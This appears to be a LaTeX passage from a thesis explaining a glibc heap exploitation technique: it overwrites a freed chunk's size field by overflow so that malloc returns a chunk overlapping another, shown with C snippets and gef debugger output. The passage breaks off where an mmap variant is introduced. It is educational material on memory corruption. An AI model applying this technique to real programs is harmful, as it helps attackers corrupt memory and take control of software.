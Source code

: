 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\mmapc{\lstinline{mmap}}
\begin{document}
In the next step, like we did before, we have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}

As you remember, currently, p2 located at the \ub{}, also, we change the size of p2, so, when the heap manager receives an allocation request it return p2, as the result, it have overlap with previous chunks:

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef p p4
$11 = (intptr_t *) 0x555555559110
gef p p2
$12 = (intptr_t *) 0x555555559110
gef p p1
$13 = (intptr_t *) 0x555555559010
gef p p3
$14 = (intptr_t *) 0x555555559210
\end{lstlisting}

As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application.Now the p3 and p4 have overlap, so, write data on one of them could overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system can use \mmapc{} in this scenario. Take consider the following code:
\end{document}
